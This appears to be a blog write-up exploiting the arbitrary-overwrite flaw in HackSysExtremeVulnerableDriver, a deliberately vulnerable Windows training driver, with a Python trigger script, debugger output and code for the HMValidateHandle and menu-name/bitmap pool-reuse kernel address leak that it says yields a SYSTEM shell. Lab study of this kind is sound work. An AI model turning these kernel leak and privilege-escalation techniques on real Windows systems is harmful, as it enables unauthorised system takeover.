 ```yaml
---
layout:     post
title:      HackSysExtremeVulnerableDriver Bitmap UAF
author:     wooy0ung
tags:       hevd
category:   exploit
---
```


*  目录
{:toc}

>[Analysis Environment]  
>guest machine: Windows 10 1607 jul x64  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  
<!-- more -->


## 0x001 Test POC

Save this code as python script file.
```
import sys
from ctypes import *

kernel32 = windll.kernel32
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

if not hevDevice or hevDevice == -1:
	print "[-] Couldn't get Device Driver handle."
	sys.exit(0)
buf = "A"*8 + "B"*8
buflen = len(buf)

kernel32.DeviceIoControl(hevDevice,0x22200B,buf,buflen,None,0,byref(c_ulong()),None)
```

Let's trigger the vulnerability.
```
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
[+] UserWriteWhatWhere: 0x0000000001080E18
[+] WRITE_WHAT_WHERE Size: 0x10
[+] UserWriteWhatWhere->What: 0x4141414141414141
[+] UserWriteWhatWhere->Where: 0x4242424242424242
[+] Triggering Arbitrary Overwrite
[-] Exception Code: 0xC0000005
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
```
Well, the trigger work fine.

In Win10 1703, Microsoft nulled the pKernelAddress in the GDI_CELL struct killing the old infoleak, review the last challenge,
it is the key point for our address to get pvscan0 Addr.
```
class GDICELL64(Structure):
    _fields_ = [("pKernelAddress", c_void_p),
                ("wProcessId", c_ushort), 
                ("wCount", c_ushort),
                ("wUpper", c_ushort),
                ("wType", c_ushort),
                ("pUserAddress", c_void_p)]
```


## 0x002 Exploit it

Luckily, there is another method to exploit Win10 1703. First, we should get the HMValidateHandle Addr, this is necssaary. Don't be afraid, it is painless.

HmValidateHandle is a very interesting function as we can provide it with a handle to a Window object and it will return the pointer to the user mapped tagWND object on the Desktop Heap, isn't that useful!

We may get the Addr of user32.IsMenu method, then, try to find out . 
```
kd> u user32!IsMenu
USER32!IsMenu:
00007fff`17d489e0 4883ec28        sub     rsp,28h
00007fff`17d489e4 b202            mov     dl,2
00007fff`17d489e6 e805380000      call    USER32!HMValidateHandle (00007fff`17d4c1f0)
00007fff`17d489eb 33c9            xor     ecx,ecx
00007fff`17d489ed 4885c0          test    rax,rax
00007fff`17d489f0 0f95c1          setne   cl
00007fff`17d489f3 8bc1            mov     eax,ecx
00007fff`17d489f5 4883c428        add     rsp,28h
```
Pay attention, after first 0xe8 byte opcode may be the Pointer to HMValidateHandle offset.

Try to compare with 0xe8 for every bytes after the user32.IsMenu method.
```
def findHMValidateHandle():
	global pHMValidateHandle

	kernel32.LoadLibraryA.restype = HMODULE
	hUser32 = kernel32.LoadLibraryA("user32.dll")

	kernel32.GetProcAddress.restype = c_ulonglong
	kernel32.GetProcAddress.argtypes = (HMODULE,LPCSTR)
	pIsMenu = kernel32.GetProcAddress(hUser32,"IsMenu")
	debug_print("[>] Locating HMValidateHandle()")
	debug_print("\t[+] user32.IsMenu: 0x%X" % pIsMenu)

	offset = 0
	pHMValidateHandle_offset = 0
	while(offset < 0x100):
		byte = cast(pIsMenu + offset, POINTER(c_byte))
		# if byte == 0xE8(232 - 128 - 128 = -24)
		if byte.contents.value == -24:
			pHMValidateHandle_offset = pIsMenu + offset + 1
			break;
		offset = offset + 1
	debug_print("\t[+] Pointer to HMValidateHandle offset: 0x%X" % pHMValidateHandle_offset)
	
	HMValidateHandle_offset = (cast(pHMValidateHandle_offset, POINTER(c_long))).contents.value
	debug_print("\t[+] HMValidateHandle offset: 0x%X" % HMValidateHandle_offset)

	# Add 0xb because relative offset of call starts from next instruction after call, which is 0xb bytes from start of user32.IsMenu
	pHMValidateHandle = pIsMenu + HMValidateHandle_offset + 0xb
	debug_print("\t[+] HMValidateHandle pointer: 0x%X" % pHMValidateHandle)
```

Next step, allocate a large Window menu name, free it and then allocate our Bitmap which will reuse the free'd memory, because the Window menu name (lpszMenuName) is allocated in the same Kernel pool as our bitmap. if we make the menu name larger than 4kb it ends up in the large pool which has low'ish entropy making this UAF style leak 100% reliable.

How to ensure that our predictions are completely correct？

Well, we may try to compare the lpszMenuName of reuse block with the previous freed block. Therefore, the kernelAddr of Bitmap objects is fully predictable.
```
def alloc_free_windows():
	global classNumber

	previous_entry = 0

	while (1):
		plpszMenuName = allocate_free_window()
		if previous_entry == plpszMenuName:
			return plpszMenuName
		previous_entry = plpszMenuName
		classNumber = classNumber + 1
```

Now, we only need to do the same jobs of last challenge, then, I successfully got a system cmd.
![](/assets/img/exploit/2018-08-10-hacksys-extreme-vulnerable-driver-bitmapnecromancy/0x001.png)